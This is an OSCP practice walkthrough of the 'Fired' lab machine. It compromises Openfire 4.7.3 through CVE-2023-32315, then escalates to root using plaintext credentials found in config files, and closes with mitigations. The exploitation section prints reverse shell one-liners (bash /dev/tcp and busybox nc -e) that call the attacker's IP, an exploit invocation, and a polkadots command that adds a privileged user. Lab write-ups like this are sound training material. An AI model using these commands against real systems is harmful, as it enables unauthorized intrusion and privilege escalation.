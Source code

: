 ```yaml
---
title: Fired
date: 2025-05-09
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, CVE-2023-32315, file-enumeration-privesc ] 
image: fire.webp
media_subpath: /assets/img/posts/2025-05-09-fired/
---
```


## Introduction

In this walkthrough, I began by scanning the target machine and identified that ports **22**, **9090**, and **9091** were open. Navigating to port **9090**, I discovered a **web login console** for the **Openfire** application. The login page disclosed the version number as **Openfire 4.7.3**. Using this information, I located a publicly available exploit for that specific version and successfully gained unauthorized access to the system.

During post-exploitation enumeration, I inspected various directories and found that the **Openfire configuration files** contained **SMTP mail settings**. These files revealed the **root user's email credentials in plaintext**. Leveraging those credentials, I was able to escalate my privileges and gain **root access** to the machine.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22

Version - OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)

We usually skip SSH.

## Web

### Port 9090

Version - Jetty

Navigating to the website we are presented with login screen. I have seen the version of the application there.

![image.png](image%202.png)

### Port 9091

Same website with https.

## Exploitation

Let’s search for public exploits for this version of application.

[K3ysTr0K3R/CVE-2023-32315](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT&ved=2ahUKEwil9r-Po5SNAxVXgP0HHamRKqsQFnoECAkQAQ&usg=AOvVaw33em7bYOOa8loXvFyP88c0)

[https://github.com/miko550/CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)

![image.png](image%203.png)

```bash
python3 CVE-2023-32315.py -u http://$IP:9090
```

Upload mentioned plugin. 

![image.png](image%204.png)

Then go to `Server > Server Settings > Management Tool`. Enter the pass `123` and select `system command`:

![image.png](image%205.png)

Let’s get a reverse shell:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.154/9090 0>&1'
```

I tried pretty much every reverse shell command but neither worked then I stumbled upon the following story, that means in worst cases we can use busybox:
[OSCP-Tip Reverse Shell with Busybox](https://duckwrites.medium.com/oscp-tip-reverse-shell-with-busybox-359d755a6383)

```bash
busybox nc 192.168.45.154 9090 -e /bin/bash
```

Get interactive shell using the following command:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")’
```

## Privilege Escalation

- **OSCP Checklist**
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles

Running linpeas.sh

![image.png](image%206.png)

[https://github.com/swapravo/polkadots](https://github.com/swapravo/polkadots)

This exploit creates a new privileged user with which you can escalate to root.

```bash
./polkadots -a kh4n -n kh4n -h $1$Y9XvmTAe$xZLaIiHTpEBx5QKWPcwFN. -i 20
```

![image.png](image%207.png)

From [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) I identified web server directory `/var/lib/openfire` and investigating that directory I found that other admin have done some activities and found password there.

![image.png](image%208.png)

## Mitigation

- **Update Openfire** to the latest version, as version 4.7.3 contains known security flaws.
- **Avoid displaying application version numbers** on login pages or publicly accessible interfaces.
- **Remove sensitive credentials** from configuration files or store them securely using environment variables or encrypted vaults.
- Implement **principle of least privilege** for application-level users and mail accounts.
- Regularly audit system files for **exposed secrets or misconfigurations**.
- Enable **multi-factor authentication** (MFA) and strong password policies for web applications.
